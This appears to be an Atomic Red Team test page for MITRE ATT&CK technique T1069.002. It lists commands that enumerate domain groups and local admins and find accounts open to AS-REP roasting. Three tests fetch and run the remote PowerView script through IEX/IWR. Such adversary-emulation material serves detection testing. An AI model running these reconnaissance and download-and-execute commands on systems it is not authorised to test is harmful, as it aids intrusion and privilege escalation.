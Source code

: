 # T1069.002 - Domain Groups
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1069.002)
<blockquote>Adversaries may attempt to find domain-level groups and permission settings. The knowledge of domain-level permission groups can help adversaries determine which groups exist and which users belong to a particular group. Adversaries may use this information to determine which users have elevated permissions, such as domain administrators.

Commands such as <code>net group /domain</code> of the [Net](https://attack.mitre.org/software/S0039) utility,  <code>dscacheutil -q group</code> on macOS, and <code>ldapsearch</code> on Linux can list domain-level groups.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Basic Permission Groups Discovery Windows (Domain)](#atomic-test-1---basic-permission-groups-discovery-windows-domain)

- [Atomic Test #2 - Permission Groups Discovery PowerShell (Domain)](#atomic-test-2---permission-groups-discovery-powershell-domain)

- [Atomic Test #3 - Elevated group enumeration using net group (Domain)](#atomic-test-3---elevated-group-enumeration-using-net-group-domain)

- [Atomic Test #4 - Find machines where user has local admin access (PowerView)](#atomic-test-4---find-machines-where-user-has-local-admin-access-powerview)

- [Atomic Test #5 - Find local admins on all machines in domain (PowerView)](#atomic-test-5---find-local-admins-on-all-machines-in-domain-powerview)

- [Atomic Test #6 - Find Local Admins via Group Policy (PowerView)](#atomic-test-6---find-local-admins-via-group-policy-powerview)

- [Atomic Test #7 - Enumerate Users Not Requiring Pre Auth (ASRepRoast)](#atomic-test-7---enumerate-users-not-requiring-pre-auth-asreproast)


<br/>

## Atomic Test #1 - Basic Permission Groups Discovery Windows (Domain)
Basic Permission Groups Discovery for Windows. This test will display some errors if run on a computer not connected to a domain. Upon execution, domain
information will be displayed.

**Supported Platforms:** Windows





#### Attack Commands: Run with `command_prompt`! 


```cmd
net localgroup
net group /domain
net group "domain admins" /domain
```






<br/>
<br/>

## Atomic Test #2 - Permission Groups Discovery PowerShell (Domain)
Permission Groups Discovery utilizing PowerShell. This test will display some errors if run on a computer not connected to a domain. Upon execution, domain
information will be displayed.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| user | User to identify what groups a user is a member of | string | administrator|


#### Attack Commands: Run with `powershell`! 


```powershell
get-ADPrincipalGroupMembership #{user} | select name
```






<br/>
<br/>

## Atomic Test #3 - Elevated group enumeration using net group (Domain)
Runs "net group" command including command aliases and loose typing to simulate enumeration/discovery of high value domain groups. This
test will display some errors if run on a computer not connected to a domain. Upon execution, domain information will be displayed.

**Supported Platforms:** Windows





#### Attack Commands: Run with `command_prompt`! 


```cmd
net group /domai "Domain Admins"
net groups "Account Operators" /doma
net groups "Exchange Organization Management" /doma
net group "BUILTIN\Backup Operators" /doma
```






<br/>
<br/>

## Atomic Test #4 - Find machines where user has local admin access (PowerView)
Find machines where user has local admin access (PowerView). Upon execution, progress and info about each host in the domain being scanned will be displayed.

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`! 


```powershell
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1'); Find-LocalAdminAccess -Verbose
```






<br/>
<br/>

## Atomic Test #5 - Find local admins on all machines in domain (PowerView)
Enumerates members of the local Administrators groups across all machines in the domain. Upon execution, information about each machine will be displayed.

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`! 


```powershell
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1'); Invoke-EnumerateLocalAdmin  -Verbose
```






<br/>
<br/>

## Atomic Test #6 - Find Local Admins via Group Policy (PowerView)
takes a computer and determines who has admin rights over it through GPO enumeration. Upon execution, information about the machine will be displayed.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| computer_name | hostname of the computer to analyze | Path | $env:COMPUTERNAME|


#### Attack Commands: Run with `powershell`! 


```powershell
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1'); Find-GPOComputerAdmin -ComputerName #{computer_name} -Verbose
```






<br/>
<br/>

## Atomic Test #7 - Enumerate Users Not Requiring Pre Auth (ASRepRoast)
When successful, accounts that do not require kerberos pre-auth will be returned

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`! 


```powershell
get-aduser -f * -pr DoesNotRequirePreAuth | where {$_.DoesNotRequirePreAuth -eq $TRUE}
```




#### Dependencies:  Run with `powershell`!
##### Description: Computer must be domain joined.
##### Check Prereq Commands:
```powershell
if((Get-CIMInstance -Class Win32_ComputerSystem).PartOfDomain) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
Write-Host Joining this computer to a domain must be done manually.
```
##### Description: Requires the Active Directory module for powershell to be installed.
##### Check Prereq Commands:
```powershell
if(Get-Module -ListAvailable -Name ActiveDirectory) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
Add-WindowsCapability -Online -Name "Rsat.ActiveDirectory.DS-LDS.Tools~~~~0.0.1.0"
```




<br/>
